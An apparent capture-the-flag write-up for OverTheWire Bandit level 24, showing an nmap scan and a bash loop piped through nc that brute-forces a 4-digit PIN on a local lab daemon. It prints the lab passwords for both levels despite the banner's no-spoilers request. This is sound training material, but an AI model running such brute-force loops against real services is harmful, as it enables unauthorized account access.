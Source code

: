 # Bandit Level 24 → Level 25

## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Solution
Brute Force attack is a cryptographic hack. Also known as an Exhaustive Search, it relies on calculating and submitting every possible password combination with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.

```                                                                                
┌──(kali㉿kali)-[~]
└─$ ssh -p 2220 bandit24@bandit.labs.overthewire.org
```

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

```
bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Linux bandit.otw.local 5.4.8 x86_64 GNU/Linux
```
      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org
```

Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames.
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with
  easily guessable or short names will be periodically deleted!

  Please play nice:

    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS!
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * gef (https://github.com/hugsy/gef) in /usr/local/gef/
    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!

```
bandit24@bandit:~$ nmap -p- localhost                             #to check if localhost is listening at 30002
                                                                  #you can specify -p- to scan ports from 1 through 65535
Starting Nmap 7.40 ( https://nmap.org ) at 2022-02-11 10:11 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00026s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
113/tcp   open  ident
1234/tcp  open  hotline
30000/tcp open  ndmps
30001/tcp open  pago-services1
30002/tcp open  pago-services2                                    #the localhost is listening at 30002
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.53 seconds
```
### Note1: In the challenge it is told that along with the password for bandit24, a 4 digit passcode (obtained using brute-force) should be produced to the localhost through port 30002. So write a script to append the 4 digit passcode with the bandit24 password. This script is written in the file basefile.sh and the final password appended with passcode is redirected to the file combinations.txt.

```
bandit24@bandit:~$ mkdir /tmp/dirbandit24                            #create a directory dirbandit24 under temp

bandit24@bandit:~$ cd /tmp/dirbandit24                               #navigate to dirbandit24

bandit24@bandit:/tmp/dirbandit24$ vim basefile.sh                    #create and open a file named basefile.sh using vim
                                                                     #press i for insert mode in vim
                                                                     #type the below script in it
                                                                     #!/bin/bash
                                                                     #for i in {0000..9999};
                                                                     #    do
                                                                     #        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> combinations.txt
                                                                     #    done
    
                                                                     #press Esc to get into command mode
                                                                     #run :wq to save and close the vim


bandit24@bandit:/tmp/dirbandit24$ cat basefile.sh                    #read the created file to verify its contents 
#!/bin/bash

for i in {0000..9999};                                                        #generate 0000 to 9999, each digit in each iteration                                                                     
    do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> combinations.txt        #append the generated passcode with bandit24 password and redirect it to the file combinations.txt in each iteration
    done
    
bandit24@bandit:/tmp/dirbandit24$ chmod +x basefile.sh                 #provide execute permission for basefile.sh

bandit24@bandit:/tmp/dirbandit24$ ./basefile.sh                        #execute the file basefile.sh

bandit24@bandit:/tmp/dirbandit24$ head -n 5 combinations.txt           #to see the first 5 entries of combinations.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0004
```
### Note2: Send the contents of the file to localhost at port 30002, which inturn will produce the password to the next level when the correct passcode is received. This output is redirected to result.txt file.
```
bandit24@bandit:/tmp/dirbandit24$ cat combinations.txt | nc localhost 30002 >> result.txt   

bandit24@bandit:/tmp/dirbandit24$ sort result.txt | uniq -u            #since there is only one passcode that can provide the password, sort and find the unique output

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

bandit24@bandit:/tmp/dirbandit24$ rm -rf /tmp/dirbandit24              #delete the created directory

bandit24@bandit:/tmp/dirbandit24$ exit                                 #logout of bandit.labs.overthewire.org
logout
Connection to bandit.labs.overthewire.org closed.
```                  
#### vim text editor
```
vim            -> Open vim
vim <fileName> -> Open file using vim or create and open the file with vim
i              -> Switch to insert mode & Enter some text
Esc            -> Switch back to command mode
:w             -> Save changes to file
:q             -> Quit Vim
```

